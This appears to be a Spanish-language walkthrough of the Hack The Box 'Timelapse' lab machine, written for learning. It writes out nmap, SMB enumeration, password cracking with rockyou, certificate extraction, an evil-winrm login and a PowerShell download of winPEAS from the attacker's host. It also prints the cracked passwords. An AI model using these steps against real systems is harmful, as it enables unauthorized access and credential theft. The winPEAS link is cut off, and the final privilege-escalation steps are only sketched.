

# [](#header-1)Maquina Timelapse

## [](#header-2)Indice
- <a href="#introduccion">Introduccion</a>
- <a href="#reconocimiento">Reconocimiento</a>
- <a href="#escaneo">Escaneo</a>
  - <a href="#gain_access">Gain Access</a>
  - <a href="#privilege_scalation">Escalamiento de privilegios</a>

## [](#header-2)<a id="introduccion">Introduccion</a>
  
  Esta maquina es una de las faciles que ofrece HTB (hack the box), para ir comenzando en el mundo del pentest, es bueno ir documentando los pasos que se han tomado para lograr capturar las flags de objetivo de las maquinas

## [](#header-2)<a id="about_monero">Reconocimiento</a>

### [](#header-3)PING
En esta etapa, verificamos la conectividad con la maquina, escaneo de puertos y reconocimiento de servicios activos en los servicios.
**PING** Comunmente se utiliza un ping para verificar la comunicacion con la maquina a la que se realizara la prueba, pero el ping en linux esta en un loop infinito, hasta que se corta el proceso del comando. Es por ello que utilizaremos un ping discreto:
```S
ping -c 2 10.10.11.152
```


## [](#header-2)<a id="escaneo">Escaneo</a>

### [](#header-3)NMAP
**NMAP** Esta herramienta es utilizada por los administradores de redes para hacer un escaneo rapido y dependiendo de sus parametros de configuracion, profundizar en la busqueda de informacion. 
*Nota* Es importante no depender de esta herramienta ya que el escaneo es agresivo y en un entorno controlado, se pueden activar alarmas de intruision.
Para esta maquina, utilizaremos el siguiente comando:
```S
nmap -vvv -Pn -sCV -T4 -p0-65535 --reason -oN Timelapse.nmap 10.10.11.152
# -T4 o T5 para la velocidad de escaneo 
# -p0-65535 para una búsqueda en todos los puertos
# -vvv para visualizar las tareas que va completando(Esto es útil, por si llegamos a reconocer algún servicio explotable)
# -p0-65535 Para establecer el rango de puertos de busqueda
# -sCV es la combinacion de los comandos sC que es para el escaneo con scripts por default de nmap y sV que es para sondear los puertos abiertos
# -oN es la salida en el formato que establezcamos que comunmente es .nmap o podria ser en un .xml
# -O es para la deteccion del Sistema Operativo 
```
Buscaremos si existen vulnerabilidades registradas en el sistema con la herramienta nmap y los scripts específicos de análisis para el protocolo samba:
La ruta especifica y filtrado del servicio que usaremos para la búsqueda y visualizarlos es:
```S
ls /usr/share/nmap/scripts | grep smb-vuln
```
El comando nos muestra que es vulnerable, y se cuenta con un CVE, con el cual habría que desarrollar una herramienta donde se use el buffer overflow y ejecutar un exploit diseñado para el sistema operativo.

## [](#header-2)<a id="gain_access">Gain Access</a>

### [](#header-3)Domain integration
**Integracion en dominio del servidor** Despues del escaneo, es posible descubrir algunos dominios del servidor, para poder establecer una comunicacion correcta con los servicios nos integraremos en el servicio. Modificando el archivo que se encuentra en /etc/hosts para poder editarlo y relacionar la IP de la maquina con el dominio encontrado. 
*Nota* A lo largo de la prueba, se pueden encontrar mas dominios asociados a la ip y sera necesario regresar a este archivo para modificarlo.
```S
nano /etc/hosts
```

Notamos que el puerto 445 esta expuesto, normalmente usado para el servicio smb de Windows y a continuacion utilizaremos otras herramientas para verificarlo.

Ocuparemos la herramienta enum4linux para obtener algunos usuarios por el servicio de smb
```S
enum4linux -a 10.10.11.152
```

Con el siguiente comando, descubriremos algunos directorios compartidos que no tienen contrasenas
```S
smbclient --no-pass --list=10.10.11.152
```
Para conectarnos al rpc y obtener mas informacion

```S
rpcclient -U "" -N 10.10.11.152
```

Aplicaremos el siguiente comando para intentar establecer un acceso a un directorio en el que no tenemos acceso

```S
smbclient -U 'ANONYMOUS LOGON' -N \\\\10.10.11.152\\Share
```
Obtuvimos acceso, y ahora podemos descargar un archivo .zip con contrasena y dentro que un archivo cifrado dentro del directorio Dev
- Usamos el comando get para descargar el archivo .zip 

Usaremos una herramienta llamada frackzip, la cual se utiliza para descomprimir archivos zip, y para abrirlos por fuerza bruta, en este caso usaremos una wordlist que tiene integrado Kali:
```S
sudo fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt winrm_backup.zip”
```
La contraseña encontrada es supremelegacy, al encontrar contraseñas que parecen haber sido creadas por personas y no por algún algoritmo, nos damos cuenta de que la complejidad de las contraseñas no es alta.

Para romper con la seguridad de estos archivos, utilizaremos una herramienta obtenida de:
https://github.com/crackpkcs12/crackpkcs12.git
Para su instalación, utilizaremos los comandos:

```S
sudo apt install libssl-dev
sudo ./configure
make    
```
El comando que utilizaremos, para volver a usar la wordlist, es:
```S
crackpkcs12 -d /usr/share/wordlists/rockyou.txt ./legacyy_dev_auth.pfx
```
La contraseña encontrada es thuglegacyy, esta la usaremos para ingresar en el servicio y generar una llave privada llamada priv.key y cert.crt

El comando que utilizaremos para establecer la conexion con el servicio, utilizar las credenciales obtenidas y despues ingresar la contrasena del archivo .pfx que anteriormente obtuvimos, por medio de openssl es:
```S
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out prv.key
```

Después será necesario generar un certificado cl e igualmente lo podemos generar con openssl
```S
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt
#ingresamos nuevamente la contraseña thuglegacyy
```
A continuacion, estableceremos la coneccion, usando nuestra prv.key y el certificado cert.crt con:
```S
evil-winrm -i 10.10.11.152 -S -c cert.crt -k prv.key -p -u
``` 
Una vez dentro, navegamos al Escritorio, y con el comando 'type' podremos leer la flag 

## [](#header-2)<a id="privilege_scalation">Escalamiento de privilegios</a>
Despues del paso anterior, utilizaremos la siguiente herramienta para automatizar un poco el proceso de recopilacion de informacion y poder escalar privilegios mas rapido. ases/download/20220410/winPEASx64.exe

Abrimos un servicio http para poder descargarnos el archivo desde la maquina
```py
python3 -m http.server 80
``` 
Con PowerShell, ejecutamos el siguiente comando para hacer la descarga
```powershell
powershell invoke-WebRequest -UseBasicParsing 10.10.14.153/winPEASx64.exe -OutFile winPEASx64.exe
``` 
Ejecutamos la herramienta y ahora sabemos que en el servicio de PowerShel, que se encuentra en la siguiente ruta, es vulnerable y quizas aqui encontremos credenciales para escalar privilegios.
```S
Users/legacyy/AppData/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt
``` 
Nos descargamos el archivo de historia de comandos y lo visualizamos

Historial de comandos, tambien hay algo interesante, en la parte de as a plain text nos muestra una contrasena y un usuario en texto plano

LDAP es un protocolo de acceso para los servicios del directorio activo, y es el que utilizaremos para continuar navegando en la maquina intentando escalar los privilegios

Leemos la ultima bandera, y habremos terminado la maquina
